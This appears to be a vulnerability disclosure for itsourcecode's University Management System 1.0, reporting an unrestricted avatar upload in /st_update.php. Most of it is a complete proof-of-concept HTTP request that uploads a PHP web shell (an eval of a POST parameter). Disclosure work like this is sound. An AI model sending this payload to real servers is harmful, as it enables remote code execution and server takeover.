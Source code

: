 # Vendor

itsourcecode

# Product

University Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2022/01/University-Management-System-Project-In-PHP-Source-Code.zip

# Description
Register and log in with a student account。When visiting the /st_update.php?id=123321 page, the value corresponding to id is StudentID. You can upload an avatar file, but the page does not impose any restrictions on the uploaded files, resulting in attackers being able to directly upload PHP trojan files.

# Analysis
The /st_update.php page does not restrict the files that are uploaded.
<img width="1397" alt="image" src="https://github.com/user-attachments/assets/3247ff72-4189-4e15-8b35-8dc0aa73b6d0">

POC
---
POST /st_update.php?id=123321 HTTP/1.1
Host: 192.168.17.24
Content-Length: 937
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.17.24
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX0kAumwGMjeexhTk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.24/st_update.php?id=123321
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: current_lang=zh; accept_cookie=true; _nss=1; PHPSESSID=48q57aq6nov1rqea73sklhccae
Connection: close

------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="personal_image"; filename="shell.php"
Content-Type: text/php

<?php eval($_POST["cmd"]);?>

------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_name"

mirage
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_email"

mirage@google.com
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_dept"

BBA
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_contact"

12343212421
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_gender"

Male
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_add"

hangzhou
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="Update"

Update
------WebKitFormBoundaryX0kAumwGMjeexhTk--
